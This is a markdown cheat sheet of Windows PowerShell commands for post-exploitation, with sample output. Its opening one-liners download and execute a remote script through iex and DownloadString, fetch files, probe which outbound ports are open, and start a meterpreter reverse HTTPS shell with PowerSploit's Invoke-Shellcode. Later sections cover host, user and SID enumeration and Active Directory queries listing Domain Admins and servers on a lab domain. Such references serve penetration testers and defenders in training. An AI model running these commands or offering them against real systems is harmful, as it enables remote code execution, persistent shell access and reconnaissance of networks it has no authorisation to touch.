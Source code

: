 <!-- Code for collapse and expand -->
<script type="text/javascript"> 
$(document).ready(function() { 
$('div.view').hide(); 
$('div.slide').click(function() {
$(this).next('div.view').slideToggle('fast'); 
return false; 
}); 
}); 
</script>

# Windows Powershell Commands and Scripts for Post Exploitation

# One liners

**Download and Execute Remote Powershell Script**

```
iex (New-Object Net.WebClient).DownloadString("http://host/file.txt")
```

**Download and Save File**

```
(new-object System.Net.WebClient).Downloadfile('http://host/file.exe', 'file.exe')
```

**Enumerate Allowed Outbound Ports 1-1024 via [securitypadawan.blogspot.com](http://securitypadawan.blogspot.com/2013/04/quickly-determine-allowed-outbound-ports.html)**

```
$ErrorActionPreference = "silentlycontinue"; 1..1024 | % {$req = [System.Net.WebRequest]::Create("http://letmeoutofyour.net:$_"); $req.Timeout = 600; $resp = $req.GetResponse(); $respstream = $resp.GetResponseStream(); 
$stream = new-object System.IO.StreamReader $respstream; $out = $stream.ReadToEnd(); if ($out.trim() -eq "w00tw00t"){echo "$_ Allowed out"}}
```

**Reverse Shell Using [PowerSploit's Invoke-Shellcode](https://github.com/mattifestation/PowerSploit/blob/master/CodeExecution/Invoke-Shellcode.ps1)**

```
Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost 192.168.1.10 -Lport 443 -Force
```

----

# Commands with Sample Output
## Hardware
### Get BIOS Information
 * **Command with arguments**: `gwmi win32_bios`
 * **Description**: Retrieves BIOS information including system serial number.
 * **Output**:
   * <div class="slide" style="cursor: pointer;"> **Windows 7:** Show/Hide</div><div class="view"><code>PS C:\Users\johndoe> gwmi win32_bios<br>SMBIOSBIOSVersion : 6.00<br>Manufacturer      : Phoenix Technologies LTD<br>Name              : PhoenixBIOS 4.0 Release 6.0<br>SerialNumber      : VMware-56 4d 9b 0f 26 ba 8c f9-6e 7a 1e 33 5d 3c f0 dc<br>Version           : INTEL  - 6040000</code></div> 
   
### Get Drive Information
 * **Command with arguments**: `[System.IO.DriveInfo]::GetDrives()`
 * **Output**:
   * <div class="slide" style="cursor: pointer;"> **Windows 7:** Show/Hide</div><div class="view"><code>PS C:\Users\johndoe> [System.IO.DriveInfo]::GetDrives()<br><br>Name               : C:\<br>DriveType          : Fixed<br>DriveFormat        : NTFS<br>IsReady            : True<br>AvailableFreeSpace : 55568087552<br>TotalFreeSpace     : 55568087552<br>TotalSize          : 159876850304<br>RootDirectory      : C:\<br>VolumeLabel        : <br><br>Name               : D:\<br>DriveType          : CDRom<br>DriveFormat        : <br>IsReady            : False<br>AvailableFreeSpace : <br>TotalFreeSpace     : <br>TotalSize          : <br>RootDirectory      : D:\<br>VolumeLabel        : <br><br>Name               : G:\<br>DriveType          : Removable<br>DriveFormat        : <br>IsReady            : False<br>AvailableFreeSpace : <br>TotalFreeSpace     : <br>TotalSize          : <br>RootDirectory      : G:\<br>VolumeLabel        : <br><br>Name               : V:\<br>DriveType          : Network<br>DriveFormat        : NTFS<br>IsReady            : True<br>AvailableFreeSpace : 259182640616<br>TotalFreeSpace     : 259182640616<br>TotalSize          : 827361812256<br>RootDirectory      : V:\<br>VolumeLabel        : TestMappedDrive</code></div> 

## User Information
### Display Username, SID, Last Used
 * **Command with arguments**: `gwmi win32_userprofile | select -unique @{name="Name";expression={$_.__server}},@{name="SID";expression={$_.sid}},@{name="LastUseTime";expression={$_.converttodatetime($_.lastusetime)}},localpath | ft -auto`
 * **Description**: Retrieves information about system users.
 * **Output**:
   * <div class="slide" style="cursor: pointer;"> **Windows 7:** Show/Hide</div><div class="view"><code>PS C:\Users\johndoe> gwmi win32\_userprofile | select -unique @{name="Name";expression={$\_.\_\_server}},@{name="SID";expressi<br>on={$\_.sid}},@{name="LastUseTime";expression={$\_.converttodatetime($\_.lastusetime)}},localpath | ft -auto<br><br>Name&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;SID&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;LastUseTime&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;localpath<br>----&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;---&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;-----------&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;---------<br>WIN-244VDGE5OGH&nbsp;S-1-5-21-1319606305-3131390644-2280705280-1000&nbsp;4/13/2012&nbsp;7:52:02&nbsp;PM&nbsp;C:\Users\johndoe<br>WIN-244VDGE5OGH&nbsp;S-1-5-20&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;C:\Windows\ServiceProfiles\Netwo...<br>WIN-244VDGE5OGH&nbsp;S-1-5-19&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;C:\Windows\ServiceProfiles\Local...<br>WIN-244VDGE5OGH&nbsp;S-1-5-18&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;C:\Windows\system32\config\syste...</code></div> 
   
### Translate SID to Username
 * **Command with arguments**: `((New-Object System.Security.Principal.SecurityIdentifier("S-1-5-19")).translate([System.Security.Principal.NTAccount])).value`
 * **Output**:
   * <div class="slide" style="cursor: pointer;"> **Windows 7:** Show/Hide</div><div class="view"><code>PS C:\Users\johndoe> ((New-Object System.Security.Principal.SecurityIdentifier("S-1-5-21-1319606305-3131390644-2280705280-<br>1000")).translate([System.Security.Principal.NTAccount])).value<br>WIN-244VDGE5OGH\johndoe</code></div> 
   
 ## Using the PowerShell Active Directory Modules
 ### Via https://www.trustedsec.com/uncategorized/powershell-reconnaissance/
 ### Setting Credentials 
 * **Command with arguments**: `$cred = Get-Credential`
 * **Description**: Stores valid credentials in the $cred variable for use with the Active Directory Modules.
 * **Notes**: These following commands require the Powershell Active Directory Modules to be installed. Steps to install for Win7 are detailed [here] (http://blogs.msdn.com/b/rkramesh/archive/2012/01/17/how-to-add-active-directory-module-in-powershell-in-windows-7.aspx) 
   
 ### Query to List "Domain Admins" 
 * **Command with arguments**: `Get-ADGroupMember -Credential $cred -server pwnt.com "Domain Admins"`
 * **Output**:
   * <div class="slide" style="cursor: pointer;"> **Windows 7:** Show/Hide</div><div class="view"><code>distinguishedName : CN=Administrator,CN=Users,DC=pwnt,DC=com<br>name              : Administrator<br>objectClass       : user<br>objectGUID        : 1fd60ff8-07a4-4c6e-9a1e-7cd0d7bb97db<br>SamAccountName    : Administrator<br>SID               : S-1-5-21-2027135834-1792351174-2509185371-500</code></div> 
   
 ### Enumerate All Servers on Domain 
 * **Command with arguments**: `Get-ADComputer -Credential $cred -server pwnt.com -LDAPFilter "(&(objectCategory=computer)(opera
tingSystem=*Server*))" |select name`
 * **Output**:
   * <div class="slide" style="cursor: pointer;"> **Windows 7:** Show/Hide</div><div class="view"><code>name<br>----<br>PWNT-DC<br>
Exchange1<br>
SharePoint1</code></div> 